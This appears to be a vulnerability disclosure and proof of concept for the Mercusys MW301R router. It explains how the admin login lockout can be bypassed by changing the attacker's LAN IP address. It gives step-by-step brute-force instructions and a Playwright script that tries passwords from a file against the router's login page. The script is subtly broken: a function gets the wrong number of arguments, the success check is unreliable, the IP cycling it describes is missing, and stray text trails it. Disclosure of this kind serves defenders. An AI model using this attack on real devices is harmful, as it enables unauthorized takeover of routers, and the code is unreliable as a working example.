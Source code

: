 VIDEO POC: https://youtu.be/_t3ZC8zU4-A

Vendor: Mercusys

Product: Router MW301R

Version: 1.0.2 Build 190726 Rel.59423n (4252)

Vulnerability: 7PK Security Features / Brute Force Bypass via IP Cycling

The Mercusys MW301R router implements a basic brute-force protection mechanism that blocks login attempts after a number of failed tries. However, this blocking mechanism is based solely on the source IP address, without enforcing any session fingerprinting, token validation, or advanced rate-limiting / and MAC Address, etc.

An attacker connected to the LAN can simply change their local IP address (e.g., from 192.168.1.10 to 192.168.1.11) after reaching the limit, effectively resetting the login attempt counter.

This allows a brute-force attack to be performed against the admin login page, completely defeating the intended security mechanism.

1 - Set up the attack environment
-Connect to the same local network as the router (192.168.1.1 by default).
![image](https://github.com/user-attachments/assets/1d1d3d49-8e03-4597-8ff3-586f8c3cef1a)

2 - Begin brute-force attempts
-Send login requests with different password values.
-After a few incorrect attempts, the router will begin blocking further tries from that IP.

![image](https://github.com/user-attachments/assets/d5850826-a4f7-49c9-9d65-ca34111a5feb)

3 - Change the local IP to bypass the block
-Update your network interface IP address to a new one within the allowed range.
-Resume brute-force attempts from the new IP address.
![image](https://github.com/user-attachments/assets/220705b5-901c-4773-bd0b-5859c1413289)
![image](https://github.com/user-attachments/assets/4185a0bd-5bac-44b1-9669-7bbe24080dcb)
![image](https://github.com/user-attachments/assets/5e85b2ab-6ab9-4cbf-ad15-ffb9d30ec918)


4 - Repeat the cycle
Each time the IP is rate-limited, change to a different one in the range (192.168.1.4 to 192.168.1.254).




EXPLOIT CODE:


import time
from playwright.sync_api import Playwright, sync_playwright

def carrega_senhas(caminho_arquivo: str) -> list[str]:
    with open(caminho_arquivo, "r", encoding="utf-8") as f:
        return [linha.strip() for linha in f if linha.strip()]

def tenta_login(page, senha: str) -> bool:
    page.goto("http://192.168.1.1/")
    page.get_by_role("textbox", name="Senha de Login").fill(senha)
    page.get_by_role("textbox", name="Senha de Login").press("Enter")
    time.sleep(1)
    try:
        page.get_by_text("Avançado", exact=True, timeout=2000)
        return True
    except:
        return False

def run(playwright: Playwright) -> None:
    browser = playwright.chromium.launch(headless=False)
    context = browser.new_context()
    page = context.new_page()

    senhas = carrega_senhas("senhas.txt", "")
    for idx, senha in enumerate(senhas, 1):
        print(f"[{idx}/{len(senhas)}] Testando senha: {senha!r}")
        if tenta_login(page, senha):
            print(f">>> Sucesso! Senha encontrada: {senha!r}")

            page.get_by_text("Avançado", exact=True).click()
            break
    else:
        print("Nenhuma senha funcionou.")

    context.close()
    browser.close()

if __name__ == "__main__":
    with sync_playwright() as playwright:
        run(playwright)
r 

